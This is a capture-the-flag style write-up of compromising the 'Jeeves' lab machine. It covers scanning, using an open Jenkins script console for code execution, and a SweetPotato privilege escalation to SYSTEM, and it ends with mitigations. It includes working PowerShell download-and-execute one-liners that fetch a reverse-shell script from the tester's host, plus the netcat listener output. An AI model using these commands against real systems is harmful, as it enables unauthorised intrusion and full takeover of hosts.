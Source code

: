 
# Jeeves
- Introduction
- Summary
- Walkthrough
- Mitigrations
- References

## Introduction

The Jeeves box gives two fun ways to get a low level shell and escalate privileges in ways that come up often in different forms.  

## Summary 

The target host was locked down well with the major acception of a service that was unsecured and allowed the tester to run malicious code on the server leading to access to the server. This issue can be remided by enabling access controls. The final issue is one that may remain unchanged dependant on needs.

## Jeeves

The tester starteed with an nmap scan to enumerate the hosts services.

```
└──╼ [★]$ nmap -sC -sV -p 80,135,445,50000 10.10.10.63
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-12 12:35 GMT
Nmap scan report for jeeves.htb (10.10.10.63)
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-12-12T17:35:46
|_  start_date: 2023-12-12T17:34:14
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m56s, deviation: 0s, median: 4h59m56s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.88 seconds

```

The scan showed that a web service was running on port 50000. The tester used ffuf to bruteforce the directories. 

```
└──╼ [★]$ ffuf -w '/home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'  -u http://10.10.10.63:50000/FUZZ -e .txt,.asp,.aspx,.config,.html

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.63:50000/FUZZ
 :: Wordlist         : FUZZ: /home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .txt .asp .aspx .config .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
    * FUZZ: askjeeves

:: Progress: [1245858/1245858] :: Job [1/1] :: 970 req/sec :: Duration: [0:23:13] :: Errors: 0 ::

```

The ffuf tool found the "askjeeves" endpoint. This showned that the host is running the jenkins service. Jenkins has a script console that allows user to run "groovy" scripts on the server. The tester used the following script to test code execution:

```
def process = "whoami".execute()
print "Output: " + process.text
print "Exit code: " + process.exitValue()
```

Which returned:

```
Result

Output: jeeves\kohsuke
Exit code: 0
```

The tester next started a shell on the host by downloading and invoking [this](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) powershell script. The tester set up a HTTP server using python and a Netcat listener. Then used the below script to download and run the shell.

```
def process = "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.6:8083/Invoke-PowerShellTcp.ps1')".execute()
print "Output: " + process.text
print "Exit code: " + process.exitValue()
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8084
listening on [any] 8084 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.63] 49680
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>hostname
Jeeves
PS C:\Users\Administrator\.jenkins> whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins> 
```

This gave interactive access to the host as the "kohsuke" account. The tester checked the account privileges and found that the account had the SeImpersonatePrivilege privilege. This privilege allows a user to imperonate process tokens.

```
PS C:\Users\Administrator\.jenkins> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
PS C:\Users\Administrator\.jenkins> 
```

The tester used the "sweetpotato.exe" binary to exploit this vulnerability and get system. The tester used another HTTP server to download the binary.

```
PS C:\users\public\music> wget "http://10.10.14.8:8080/SweetPotato.exe" -outfile "/users/public/music/sweetpotato.exe"
```

```
┌──(kali㉿kali)-[~/…/tools/priv_esc/windows/binaries]
└─$ python -m http.server 8080                                
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.10.63 - - [23/Dec/2023 18:03:34] code 404, message File not found
10.10.10.63 - - [23/Dec/2023 18:03:34] "GET /sweetpotato.exe HTTP/1.1" 404 -
10.10.10.63 - - [23/Dec/2023 18:03:56] "GET /SweetPotato.exe HTTP/1.1" 200 -
```

Once the binary had been downloaded the tester tested the exploit by running the "whoami" command, which returned the system account. The tester used this process to get a system shell. 

```
PS C:\users\public\music> wget "http://10.10.14.8:8080/SweetPotato.exe" -outfile "/users/public/music/sweetpotato.exe"
PS C:\users\public\music> ./sweetpotato.exe -a whoami
Modifying SweetPotato by Uknow to support webshell
Github: https://github.com/uknowsec/SweetPotato 
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\Jeeves/pipe/1b14b892-4acd-461d-8f4d-30d7665e1b02
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] CreatePipe success
[+] Command : "c:\Windows\System32\cmd.exe" /c whoami 
[+] process with pid: 3212 created.

=====================================

nt authority\system


[+] Process created, enjoy!
PS C:\users\public\music> 

```
The tester used the download and invoke command using the exploit binary to start a system reverse shell.
```
PS C:\users\public\music> ./sweetpotato.exe -a "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.8:8080/Invoke-PowerShellTcp.ps1')"  
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8085        
listening on [any] 8085 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.63] 49688
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> hostname
Jeeves
PS C:\Windows\system32> 
```

## Mitigations 

- Enable access controls for the jenkins service.
- Remove Jenkins access from the frontend if possible.
- Review account privileges.

## References

https://www.jenkins.io/doc/book/security/access-control/
https://www.jenkins.io/doc/book/security/securing-jenkins/
https://github.com/uknowsec/SweetPotato
https://github.com/samratashok/nishang

